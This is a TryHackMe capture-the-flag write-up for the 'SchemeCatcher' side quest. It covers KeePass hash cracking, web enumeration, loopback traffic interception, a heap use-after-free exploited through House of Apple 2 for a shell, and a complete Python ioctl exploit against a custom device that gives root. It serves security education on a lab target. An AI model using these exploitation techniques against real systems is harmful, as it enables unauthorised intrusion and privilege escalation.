








# SchemeCatcher – TryHackMe Writeup



**Room:** SchemeCatcher – THM  
**Difficulty:** Hard / Pwn-heavy side quest


## Introduction

SchemeCatcher is an Advent of Cyber 2025 side quest that chains password cracking, local traffic
analysis, heap exploitation, and a kernel-style device abuse to reach root. The room is gated
behind a key hidden in AoC Day 9, then escalates through multiple binaries until a custom `/dev`
device hands you the final flag.


## Step 1: Getting the Side‑Quest Key (AoC Day 9)

The SchemeCatcher VM is fully firewalled until you submit a key found inside
**Advent of Cyber 2025 – Day 9 (A Cracking Christmas)**.

On the Day 9 attack box there is a KeePass database at `~/.Passwords.kdbx`.
Convert it to a crackable hash and run John:

```bash
keepass2john ~/.Passwords.kdbx > ~/db-pass.txt
john --wordlist=/usr/share/wordlists/rockyou.txt db-pass.txt
```

Open the database with the recovered password, copy the SchemeCatcher key entry, and submit it at:

```
http://schemecatcher.thm:21337
```

> **Important:** Without this step the firewall blocks all traffic to the machine — nothing else
> will work.


## Step 2: Initial Reconnaissance

With the key accepted, the VM becomes reachable over VPN. Start with a standard Nmap scan:

```bash
nmap -sC -sV schemecatcher.thm
```

Three ports are open:

| Port | Service |
|------|---------|
| 22   | SSH |
| 80   | HTTP |
| 9004 | Custom pwnable service |

Port 80 shows a generic page with nothing useful in the source — directory brute-force is the
next move.


## Step 3: Web Enumeration and First Binary

```bash
gobuster dir -u http://schemecatcher.thm/ \
  -w /usr/share/dict/subdomains-top1million-110000.txt
```



Gobuster finds `/dev`, which hosts `4.2.0.zip`. Download and extract:

```bash
wget http://schemecatcher.thm/dev/4.2.0.zip
unzip 4.2.0.zip
# → beacon.bin
```



> **Tip:** Run `strings beacon.bin ` right away — there is a hidden flag inside
> the binary itself.


## Step 4: Analysing `beacon.bin`

Inspect the binary:

```bash
file beacon.bin
strings beacon.bin | less
```

`strings` reveals everything you need without running the binary first:

- It connects to **`127.0.0.1:4444`** and presents a small numbered menu.
- It requires a key — visible in the strings output: **`EastMass`**.

Set up monitoring before running it:

```bash
# Terminal 1 – capture loopback traffic
sudo tcpdump -i lo

# Terminal 2 – listen on port 4444
nc -nlv 127.0.0.1 4444

# Terminal 3 – run the beacon
./beacon.bin
# enter key: EastMass
```

The handshake appears in both `nc` and `tcpdump`. The binary then presents a menu with
options 1–4.




## Step 5: Intercepting the Internal HTTP Request

Testing menu option **2** shows in `tcpdump` that the beacon tries a local HTTP connection to
**`127.0.0.1:80`**, but gets no answer because nothing is listening.

Intercept it by starting a local listener on port 80 first:

```bash
# Terminal 1
nc -lnvp 80

# Terminal 2
nc -nlv 127.0.0.1 4444
./beacon.bin   # key: EastMass → choose option 2
```

The HTTP listener captures a `GET` request to a hidden path. The response contains:

- The **second flag**
- A zip archive with the next set of files



Extract the zip:

```
server                 ← the pwnable binary running on port 9004
ld-linux-x86-64.so.2
libc.so.6
```

The `ld` and `libc` files let you reproduce the exact remote environment locally for
safe testing before hitting the real target.


## Step 6: Analysing `server` — Use‑After‑Free

`server` is the binary running on port 9004. It exposes a simple heap menu:

1. **Create** — allocate an object
2. **Update** — write data into an allocated object
3. **Delete** — free an object



### The Bug: Use-After-Free (UAF)

A **Use-After-Free** happens when a program frees a memory chunk but keeps the pointer
to it without setting it to `NULL`. The program then still lets you read or write through
that old pointer, even though the memory has been returned to the allocator.

In `server`, calling **Delete** on an index frees the heap chunk but does **not** clear
the index slot. You can still call **Update** on the freed index and write into that
released memory.

### Why This Is Dangerous: tcache Poisoning

glibc's memory allocator (ptmalloc) uses small per-thread caches called **tcache bins**
to speed up allocations. When a chunk is freed, glibc writes a **forward pointer** (pointing
to the next free chunk in the same bin) directly inside the freed chunk's data area.

By writing to a freed chunk via the dangling pointer (UAF), you can **overwrite that
forward pointer** with any address you want. The next time the program calls `malloc()`
for that size, the allocator hands out a chunk at your fake address — this is called
**tcache poisoning**. It effectively gives you an arbitrary write primitive anywhere in
memory.

### The PIE Problem

Running `checksec` on `server` shows **PIE (Position Independent Executable)** is
enabled. PIE means the binary is loaded at a random base address every time it runs —
you cannot hardcode any function address in your exploit. However, all internal offsets
between functions stay constant. If you can **leak one runtime address** (e.g., a libc
pointer from the heap), you can calculate every other address by adding the known offset
to the leaked base. That libc leak is the first goal of the exploit.


## Step 7: House of Apple 2 Exploit (Port 9004)

Two scripts are used:

- [`fsop_solve.py`](https://github.com/youssef-rahmouni/WriteUps/blob/main/Scheme%20Catcher%2Ffsop_solve.py) — exploit driver built with pwntools
- [`io_file.py`](https://raw.githubusercontent.com/corgeman/leakless_research/refs/heads/main/part_1/io_file.py) — IO_FILE helper implementing House of Apple 2 primitives (credit: RoderickChan)

### What Is House of Apple 2?

glibc represents open file streams (stdin, stdout, stderr) internally as `_IO_FILE`
structures. Each structure has a **vtable** — a table of function pointers for operations
like read, write, and flush. Modern glibc validates that the vtable pointer stays within
an approved range, but **House of Apple 2** bypasses this by routing through
`_IO_wfile_jumps` (a legitimate vtable) while controlling the `_wide_data` pointer to
redirect execution. When any IO /operation fires (e.g., stdout is flushed on exit), glibc
follows the corrupted chain and ends up calling `system("sh")` instead of the real
function.

### Exploit Flow

1. **Connect and set up helpers**

   ```python
   r = remote("schemecatcher.thm", 9004)
   ```

   `create`, `update`, `delete` are wrappers that drive the server menu.

2. **Heap grooming and largebin setup**

   Specific sequences of `create` / `delete` calls drain the tcache bins and
   force chunks into the unsorted/largebin, where their metadata can be
   corrupted via the UAF to gain control of a heap pointer.

3. **Brute-force the low address bits**

   Full ASLR is active, so the exact heap and libc base addresses change each
   run. Since only the lower 12 bits are truly random per page, the script
   guesses them in a small loop:

   ```python
   for heap_brute in range(16):
       for libc_brute in range(16):
   ```

4. **Leak libc**

   A corrupted heap pointer is aimed at `_IO_2_1_stdout_`. The next IO
   operation causes glibc to write the real stdout address into the server
   response, revealing `libc.address`:

   ```python
   libc.address = libc_leak - (stdout_addr + 132)
   ```

5. **Forge the fake IO structure**

   With libc base known, build the House of Apple 2 payload:

   ```python
   file = io_file.IO_FILE_plus_struct()
   payload = file.house_of_apple2_execmd_when_do_IO_operation(
       libc.sym['_IO_2_1_stdout_'],
       libc.sym['_IO_wfile_jumps'],
       libc.sym['system'])
   ```

6. **Trigger and get shell**

   The payload is written into the fake stdout on the heap. The next IO
   flush follows the corrupted vtable chain and calls `system("sh")`:

   ```python
   r.interactive("$ ")
   ```

This gives a shell on port 9004 and the **third flag**.



> The zip archive from Step 5 also contains an **SSH private/public key pair** for the
> `agent` user — save it for the next step.


## Step 8: SSH as `agent` and Device Discovery

Log in with the recovered key:

```bash
chmod 600 id_rsa_agent
ssh -i id_rsa_agent agent@schemecatcher.thm
```

On the host there is a non-standard device file:

```bash
ls -l /dev/kagent
```

This device is backed by a kernel-style module and exposes three `ioctl` commands:

| Code         | Name               | Purpose |
|--------------|--------------------|---------|
| `0xc0b33701` | `IOCTL_HEARTBEAT`  | Copies internal module state into a caller-supplied buffer |
| `0x40933702` | `IOCTL_UPDATE_CONF`| Overwrites the current agent configuration |
| `0x133703`   | `IOCTL_EXEC_OP`    | Executes whatever function `current_op` points to |

Permissions are too restrictive for `agent` by default. The account has a sudo rule that
allows exactly one command:

```bash
sudo /bin/chmod 444 /dev/kagent
```

Run it. Read-only access is all that is needed to exploit the logic bug below.


## Step 9: Exploiting `/dev/kagent` for Root

```python
from fcntl import ioctl
import struct, os, pty

IOCTL_UPDATE_CONF = 0x40933702
IOCTL_HEARTBEAT   = 0xc0b33701
IOCTL_EXEC_OP     = 0x133703

fd = os.open("/dev/kagent", os.O_RDONLY)

# 1. Leak internal state
buf = bytearray(b"A"*16 + b"\x00"*144)
ioctl(fd, IOCTL_HEARTBEAT, buf)
leaked_session_key     = buf[69:85]
leaked_op_ping_address = struct.unpack("<Q", buf[85:93])

# 2. op_execute sits at a fixed offset from op_ping
op_execute_address = leaked_op_ping_address + 0x320

# 3. Build a forged configuration
new_config  = leaked_session_key                        # keep auth check passing
new_config += b"A"*16                                   # new agent_id (dummy)
new_config += b"B"*16                                   # new session_key (dummy)
new_config += struct.pack("<Q", op_execute_address)     # redirect current_op

# 4. Install and trigger
ioctl(fd, IOCTL_UPDATE_CONF, bytearray(new_config))
ioctl(fd, IOCTL_EXEC_OP)

pty.spawn("/bin/sh")
```

### How It Works

1. **Heartbeat leak** — `IOCTL_HEARTBEAT` fills `buf` with live kernel module data:
   the real `session_key` used for internal validation, and the runtime address of
   `op_ping` (a function pointer in the device's operation table).

2. **Compute `op_execute`** — `op_execute` sits at a **fixed offset** (`+0x320`) from
   `op_ping` within the same table, so its address is derived without any extra leak.

3. **Forge the config** — a new configuration block is built that keeps the original
   `session_key` (so the module's auth check passes) but replaces the `current_op`
   pointer with `op_execute_address`.

4. **Update and trigger** — `IOCTL_UPDATE_CONF` installs the forged config into the
   module. `IOCTL_EXEC_OP` then calls `current_op`, which now points to the privileged
   `op_execute` routine and spawns a root shell.

5. **Root shell** — `pty.spawn("/bin/sh")` attaches your terminal:

```bash
id
# uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
```




## Conclusion

SchemeCatcher is a multi-stage side quest that demonstrates how layered weaknesses compound
into a full system compromise:

- A **crackable KeePass master password** leaks the side-quest entry key.
- A **local beacon** hides its protocol in plaintext strings and communicates over loopback.
- A **Use-After-Free** on a heap service, combined with House of Apple 2, turns a logic bug
  into remote code execution against a hardened glibc.
- A **logic flaw in a kernel-style ioctl interface** lets an unprivileged user redirect
  execution flow and gain root.


## Links

- [SchemeCatcher – TryHackMe](https://tryhackme.com/room/sq2-aoc2025-JxiOKUSD9R)
- [Advent of Cyber 2025 Day 9 – A Cracking Christmas](https://tryhackme.com/room/adventofcyber2025)
- [House of Apple 2 – RoderickChan](https://www.roderickchan.cn/zh-cn/house-of-apple-%E4%B8%80%E7%A7%8D%E6%96%B0%E7%9A%84glibc%E4%B8%ADio%E6%94%BB%E5%87%BB%E6%96%B9%E6%B3%95-2/)
- [leakless_research – corgeman (GitHub)](https://github.com/corgeman/leakless_research/tree/main/part_1)

